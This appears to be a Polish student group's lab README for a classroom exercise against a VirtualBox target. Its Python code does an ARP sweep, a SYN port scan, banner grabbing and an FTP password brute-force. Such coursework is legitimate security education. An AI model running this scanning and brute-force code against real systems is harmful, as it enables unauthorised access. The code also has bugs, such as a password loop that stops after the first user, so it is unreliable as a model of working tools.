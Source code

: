 # Projekt-JDD

Grupa w składzie:
- Jerzy Tarasiewicz
- Damian Tomala
- Dorota Gliniak

Grupa podjęła decyzję o tym aby wszystkie 6 zadań były w jednym pliku pod tytułem "project.py".

# Zadanie numer 1:
Ustalić własny IP.
W terminalu wykonaliśmy polecenie (ip a)
Załączniki w postaci screenshotów:
-Zadanie 1 SS1
-Zadanie 1 SS2

# Zadanie numer 2:
Ustalić maskę podsieci.
W terminalu wykonalismy polecenie (ifconfig)
Załączniki w postaci screenshotów:
- Zadanie 2 SS1
- Zadanie 2 SS2

# Zadanie numer 3:
Na podstawie powyższych informacji przeskanować sieć i ustalić adres IP celu.

Otworzyliśmy VBox i sprawdziliśmy MAC adres celu. Po czym ustaliliśmy adres IP celu na podstawie zadania 1 oraz 2.
Załączniki w postaci screenshotów:
- Zadanie 3 SS1
- Zadanie 3 SS2

# Zadanie numer 4:
Ustalić otwarte porty na atakowanej maszynie.

Załączniki w postaci screenshotów:
- Zadanie 4 SS1

# Zadanie numer 5:
Ustalić nazwę oraz wersję oprogramowania dla wszystkich znalezionych usług (banner grabbing).

Załączniki w postaci screenshotów:
- Zadanie 4 SS1

# Zadanie numer 6:
Przeprowadzić atak brute-force na dowolną znalezioną usługę (nie musi się udać).

Załączniki w postaci screenshotów:
- Zadanie 6 SS1



# KOD

################################ 1 - GET LOCAL IP ADDRESS ################################

import socket

def get_local_ip():
    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    try:
        s.connect(('10.255.255.255', 1))
        IP = s.getsockname()[0]
    except:
        IP = '127.0.0.1'
    finally:
        s.close()
    return IP

local_ip = get_local_ip()
print(local_ip)

################################ 2 - GET MASK ADDRESS ################################

from pyroute2 import IPRoute
ip = IPRoute()
info = [{'iface': x['index'], 'addr': x.get_attr('IFA_ADDRESS'), 'mask':  x['prefixlen']} for x in ip.get_addr()]

print(info)
a = info[1]

for k, v in a.items():
    if k == 'mask':
        print(v)
        break
masks = {0:'0.0.0.0', 1:'128.0.0.0', 2:'192.0.0.0', 3:'224.0.0.0', 4:'240.0.0.0', 5:'248.0.0.0', 6:'252.0.0.0', 7:'254.0.0.0', 8:'255.0.0.0', 9:'255.128.0.0', 10:'255.192.0.0', 11:'255.224.0.0', 12:'255.240.0.0', 13:'255.248.0.0', 14:'255.252.0.0', 15:'255.254.0.0', 16:'255.255.0.0', 17:'255.255.128.0', 18:'255.255.192.0', 19:'255.255.224.0', 20:'255.255.240.0', 21:'255.255.248.0', 22:'255.255.252.0', 23:'255.255.254.0', 24:'255.255.255.0', 25:'255.255.255.128', 26:'255.255.255.192', 27:'255.255.255.224', 28:'255.255.255.240', 29:'255.255.255.248', 30:'255.255.255.252', 31:'255.255.255.254', 32:'255.255.255.255'}

for index, mask in masks.items():

    if index == v:
        index == mask
        print("netmask: ", mask)
        break

################################ 3 - Looking for target IP ################################


from scapy.all import *
from scapy.layers.inet import IP, TCP, Ether
from scapy.layers.l2 import ARP

for i in range(100, 105):
    ip = "192.168.0.{}".format(i)
    pakiet = Ether(dst="ff:ff:ff:ff:ff:ff") / ARP(pdst=ip, hwdst="ff:ff:ff:ff:ff:ff")
    dane = srp1(pakiet, timeout=1, verbose=0)
    target_MAC = '08:00:27:89:f6:2e'

    if dane:
        print("adres IP: {}, adres MAC: {}".format(str(dane.psrc), str(dane.hwsrc)))
        if target_MAC == dane.hwsrc:
            print("Target IP: ", str(dane.psrc))
            target_IP = dane.psrc

################################ 4 - Ports scaning ################################

cel = target_IP
pakiet = IP(dst="google.com")/ICMP()/"Projekt"
for port in range(22):
    pakiet = IP(dst=cel)/TCP(dport=[port], flags = "S")
    rec, wrong = sr(pakiet, timeout=1, verbose=0) #timeout - dlugosc zycia, verbose - ilosc wyswietlanych inf zwrotnych 0 - 3
    print(rec)
    if rec:
        usluga = "{}".format(str(str(rec[0]).split(" ")[7][6:]))
        dane = f"Port: {port} otwarty, usluga = {usluga}"
        print(dane)
    else:
        print(f"{port} Port zablokowany")
# print(rec)

################################ 5 - Banner Grabbing ################################

import socket
import sys

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

target = target_IP

for port in range(1, 65000):
    try:
        connection = s.connect((target, port))
        print(f"[+] {target}: port {port} is OPEN")
        s.send("Get banner \r\n".encode())
        response = s.recv((2048)).decode()
        print("Name and version service: ", response)
    except:
#        print(f"[-] {target}: port {port} is CLOSED")
        pass

################################ 6 - Brute Force ################################

import ftplib
users = open("usernames.txt", "r")
# passwords = open("passlist.txt", "r")

passwords = open("testpass.txt", "r") # original password file - passlist.txt

target = target_IP
for user in users:
    for password in passwords:
        print(f"Trying> {user}:{password}")

        try:
            ftp_server = ftplib.FTP()
            ftp_server.connect(target, 21, timeout=2)
            ftp_server.login(user, password)
            print("[+] Login successful.")
            ftp_server.close()
        except Exception as exc:
            print("[-] Brute-force attack failed!")
